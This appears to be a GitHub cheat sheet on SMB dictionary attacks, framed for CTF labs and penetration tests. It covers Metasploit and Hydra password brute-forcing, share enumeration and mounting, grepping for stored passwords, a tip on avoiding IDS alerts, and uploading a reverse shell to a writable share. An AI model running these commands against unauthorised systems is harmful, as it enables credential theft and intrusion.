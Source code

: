 

# 🔐 SMB Dictionary Attack

When a null session or valid credentials are **not available**, dictionary/brute-force attacks can help discover valid usernames and passwords.

---

## 📍 Step 1: Get Target IP

Use tools like `netdiscover`, `nmap`, or monitor DHCP logs to find the target machine's IP.

---

## 🔎 Step 2: Dictionary Attack with Metasploit

```bash
msfconsole
use auxiliary/scanner/smb/smb_login
show options

set RHOSTS <IP>
set SMBUser admin
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt

run
exit
```

* **`RHOSTS`**: Target IP address
* **`SMBUser`**: Username to brute-force
* **`PASS_FILE`**: Path to password wordlist

---

## 🔑 Step 3: Dictionary Attack Using Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt smb://<IP>
```

* **`-l admin`**: Specify username
* **`-P`**: Password wordlist
* **`smb://<IP>`**: Target SMB service

---

## 📂 Step 4: Accessing Shares with Found Credentials

Once valid credentials are discovered, use `smbmap` to enumerate accessible shares:

```bash
smbmap -H <IP> -u admin -p <found_password>
```

* Lists accessible shares and permissions for the authenticated user.

---

### ✅ Tips:

* Always validate results manually after brute-force success.
* Use small, smart wordlists first before trying huge ones.
* Avoid too many requests in a short time to prevent account lockouts or IDS alerts.

---
After you **get valid SMB credentials** (like `admin:password123`):

---

## ✅ What to Do After Getting SMB Credentials

---
### 1. 🔍 **Enumerate SMB Shares with Credentials**

Use `smbmap` or `smbclient` to list and explore accessible shares.

#### 👉 Using `smbmap`:

```bash
smbmap -H <IP> -u admin -p password123
```

* This will show all accessible shares and their permissions (read/write).

---

### 2. 📁 **Access a Specific Share**

Once you identify a share (e.g., `ShareName`) with `READ` or `WRITE` access:

#### 👉 Using `smbclient`:

```bash
smbclient //IP/ShareName -U admin
```

* Enter password when prompted.
* You'll drop into an interactive shell similar to FTP:

  * `ls` — list files
  * `cd <dir>` — change directory
  * `get <file>` — download file
  * `put <file>` — upload file

---

### 3. 🛠️ **Mount SMB Share (Optional)**

If you want to mount the SMB share locally (to browse like a normal folder):

```bash
sudo mount -t cifs //IP/ShareName /mnt/smb -o username=admin,password=password123
```

> 📌 Create the mount point first: `sudo mkdir -p /mnt/smb`

---

### 4. 🔎 **Look for Sensitive Files or Scripts**

Search for:

* Passwords or creds in `.txt`, `.ini`, `.conf`, `.ps1` files
* `.bat` or `.vbs` scripts
* Database dumps
* `.bak` files
* Anything named “backup”, “creds”, “admin”, etc.

Use:

```bash
grep -i 'password' * 2>/dev/null
```

---

### 5. 🚪 **Check for Writable Share (Privilege Escalation or RCE)**

If a share is writable:

* Try uploading a reverse shell (e.g., `.exe`, `.ps1`, `.php`) depending on the target OS and services.
* Monitor if that file is executed automatically (cronjob, startup folder, etc.).

> 🔥 This may lead to **Remote Code Execution (RCE)** or **Privilege Escalation**.

---

### 6. 🧠 **Manual Enumeration & Next Steps**

If you’re in a CTF/lab:

* Look for `user.txt`, `root.txt`, or flags.
* Pivot to other services or users using harvested info.

If in real pentesting:

* Document every share, access type, and interesting files.
* Use credentials to log into other services (WinRM, RDP, FTP, Web apps).

---

### ⚙️ Bonus Tools:

* `enum4linux -u admin -p password123 <IP>`
* `crackmapexec smb <IP> -u admin -p password123`

